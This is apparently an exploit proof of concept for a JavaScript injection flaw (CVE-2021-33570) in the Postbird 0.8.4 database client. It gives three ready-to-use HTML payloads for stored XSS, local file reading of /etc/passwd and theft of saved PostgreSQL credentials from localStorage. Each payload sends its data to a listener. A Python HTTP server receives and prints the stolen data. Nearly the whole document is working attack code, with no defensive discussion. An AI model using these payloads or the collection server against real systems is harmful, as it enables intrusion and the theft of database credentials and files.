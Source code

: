 EXP
---

    # Exploit Title: Postbird 0.8.4 - Javascript Injection
    # Date: [26 May 2021]
    # Exploit Author: Debshubra Chakraborty
    # Vendor Homepage: https://github.com/paxa/postbird
    # Software Link: https://www.electronjs.org/apps/postbird
    # Version: 0.8.4
    # Tested on: Linux
    # CVE : CVE-2021-33570

    """
    XSS Payload
    <img src="" onerror="var xhttp = new XMLHttpRequest();xhttp.open('GET', 'http://127.0.0.1 :5555/?xss='+JSON.stringify(navigator.appVersion), true);xhttp.send();">

    LFI Payload
    <img src="" onerror="var xhttp = new XMLHttpRequest();xhttp.open('GET', 'file:///etc/passwd', false);xhttp.send();var res = xhttp.response;xhttp.open('GET', 'http://127.0.0.1 :5555/?file='+JSON.stringify(res), true);xhttp.send();">

    PostgreSQL Password Stealing Payload
    <img src="" onerror="var xhttp = new XMLHttpRequest();xhttp.open('GET', 'http://127.0.0.1 :5555/?credentials='+window.localStorage.savedConnections, true);xhttp.send();">

    """

    from http.server import BaseHTTPRequestHandler, HTTPServer
    import urllib.parse
    import re

    hostName = '0.0.0.0'
    serverPort = 5555

    class MyServer(BaseHTTPRequestHandler):
        def do_GET(self):
            self.send_response(200)
            parse(urllib.parse.unquote(self.requestline))

        def log_message(self, format, *args):
            return


    def parse(data):
        expression = re.search('\S+=', data)
        attr = expression.group()

        if attr[2:len(attr)-1] == 'file':
            data = data[12:len(data)-11]
            data = data.rsplit('\\n')
            print(f'\n[+] File received from LFI: \n\n')
            for output in data:
                print(output)

        elif attr[2:len(attr)-1] == 'xss':
            data = data[11:len(data)-10]
            print(f'\n[+] Data exfiltration from Stored XSS: \n\n{data}')

        elif attr[2:len(attr)-1] == 'credentials':
            pos = re.search('{"\S+:', data)
            data = data[pos.start():len(data)-11]
            for i in range(2, len(data), 1):
                if data[i] == '"':
                    pos = i
                    break

            host = data[2:pos]
            data = data[14:]
            data = data.rsplit(',')
            print(f'\n\n[+] The Database credentials received\n\nHost = {host}')
            for output in data:
                print(output)

        else:
            print(f'\n\n[-] Unknown header attribute found, atribute = {attr[2:len(attr)-1]}')


    def main():
        global hostName, serverPort
        webServer = HTTPServer((hostName, serverPort), MyServer)
        print("Server started http://%s:%s" % (hostName, serverPort))

        try:
            webServer.serve_forever()

        except KeyboardInterrupt:
            pass

        webServer.server_close()
        print("\nServer stopped.")


    if __name__ == "__main__":
        main()